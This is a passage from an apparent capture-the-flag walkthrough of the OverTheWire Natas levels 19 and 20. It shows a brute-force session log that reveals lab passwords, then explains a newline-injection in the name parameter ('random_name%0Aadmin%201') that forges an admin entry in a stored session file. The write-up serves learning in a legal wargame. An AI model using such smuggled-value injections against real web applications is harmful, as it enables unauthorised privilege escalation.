 ```javascript
// For try #278
// For try #279
// For try #280
// For try #281
// <html>
// <head>
// <!-- This stuff in the header has nothing to do with the level -->
// <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
// <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
// <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
// <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
// <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
// <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
// <script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
// <body>
// <h1>natas19</h1>
// <div id="content">
// <p>
// <b>
// This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
// </b>
// </p>
// DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
// Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
// </body>
// </html>

// fin
- Which gives us the password for the next level.
```

### Level 20 `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`
- Here's what we know by reading the code:
    - So basically there's a file that gets created corresponding to a session that stores all the variables in the session.
    - If a file for a particular sessionId already exists then the session variables are loaded from that file.
    - And if $_SESSION has a key:value admin:1, then we get our password.
- So let's backtrack. 
    - We need the $_SESSION to have a key:value admin:1.
    - The $_SESSION reads it's variables from a file. (if it already exists)
    - We can create such files. But we can only add the property name.
    - So somehow we need to use this write to fill in the admin:1 key:value.
- Lucky for us, The file is being stored in a line-by-line, space-separated format. So if we pass `random_name\nadmin 1` to the name variable. Then it'll store this value in the file such that the file will look like this:
```
name random_name
admin 1
```
- Which when read, will read 2 separate variables.
- So to do this, call the url `http://natas20.natas.labs.overthewire.org/?debug=1&name=random_name%0Aadmin%201`. Here `%0A` is the URL encoded character for new-line (\n).
- This would have saved the file. 
- Now we reload the same URL. And this time the same file would have been read. So we get the password.
